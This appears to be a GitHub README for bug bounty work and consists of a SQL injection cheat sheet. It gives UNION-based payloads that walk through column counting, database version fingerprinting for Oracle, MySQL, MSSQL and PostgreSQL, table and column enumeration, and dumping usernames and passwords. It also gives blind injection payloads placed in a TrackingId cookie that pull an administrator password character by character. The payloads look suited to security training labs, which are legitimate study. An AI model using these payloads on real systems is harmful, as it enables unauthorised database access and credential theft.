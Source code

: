 # Bug-Bounty
This is all about web &amp; bugbounty
<h1>SQLI</h1>
<pre>(1) Determine the number of columns =>
   i)  ' order by 3 -- 
   ii) 'order by 3# 


(2) Determine the data types of the columns =>  
   i) ' UNION SELECT 'a', 'a' from DUAL-- -> here is a built-in table on Oracle called dual which can be used for this purpose
   ii) ' UNION SELECT 'a', 'a'#


(3) Output the version of the database => 
  i) ' UNION SELECT banner, NULL from v$version-- (Oracle) --> The banner displays the database release and version number AND The version information is stored in a table called v$version.
  ii) ' UNION SELECT @@version, NULL# (Microsoft ,MySql)
  iii)' UNION SELECT version(), NULL-- (postgresql)
  
(4) Output the list of table names in the database

   i) ' UNION SELECT table_name, NULL FROM information_schema.tables--  (postgresql)
   ii) ' UNION SELECT table_name NULL FROM all_tables-- (oracle)
 
(5) Output the column names of the table 

    i) ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm'-- (postgresql)
    ii) ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name= 'USERS_ABCDEF'-- (oracle)
    
(6) Output the usernames and passwords

    i) ' UNION select username_pxqwui, password_bfvoxs from users_xacgsm--
    ii) ' UNION SELECT NULL,username||'~'||password FROM users--(for retrieving multiple values in a single column)



7)Blind SQl->

   i)Modify the TrackingId cookie, changing it to:
     TrackingId=xyz' AND '1'='1
   ii)TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
   iii)'and (select 'a' from users where username ='administrator')='a'--
   iV)'and (select 'a' from users where username ='administrator' AND            
      LENGTH(password)>1)='a'--
   v)' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='q'--
</pre>
